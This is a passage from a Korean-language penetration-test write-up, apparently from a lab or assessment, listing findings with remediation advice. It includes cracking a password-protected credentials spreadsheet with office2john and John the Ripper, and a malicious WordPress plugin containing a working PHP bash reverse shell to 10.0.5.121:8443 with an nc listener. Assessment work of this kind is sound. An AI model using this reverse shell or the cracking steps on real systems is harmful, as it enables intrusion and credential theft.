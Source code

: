 ```
```

  

---

  

#### 2. 백업 디렉토리 내부의 약한 암호화가 적용된 파일 및 파일 내부 계정 정보 존재

  

```

# office2john.py 이용하여 엑셀 파일 해시화 진행

└─$ python3 /usr/share/john/office2john.py ~/Downloads/corp-creds.xlsx > hash.txt

  

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

[ . . . ]

  

genesis (corp-creds.xlsx)

```

  

- ![엑셀파일열기](image-19.png)

  

- 대응 방안: 민감한 계정 정보 파일 외부에서 접근할 수 없는 곳에 안전하게 보관

- 비밀번호 - 8자리 이상, 특수문자 2자 이상, 등으로 변경

  

---

  

#### 3. 워드프레스 악성 플러그인 설치 및 실행 취약점

  

```

# vim reverse_plugin.php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.5.121/8443 0>&1'"); ?>

------------------------------------

# zip

zip reverse_plugin.zip reverse_plugin.php

------------------------------------

# Upload

Wordpress > Plugins > Add New > Upload Plugin -> Activate Plugin

  

# 점검자 칼리

nc -lnvp 8443

```

[01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
[01]: Amazon Elastic Network Adapter
[01]: 10.0.5.116
[02]: fe80::4c64:ec7d:fde5:903c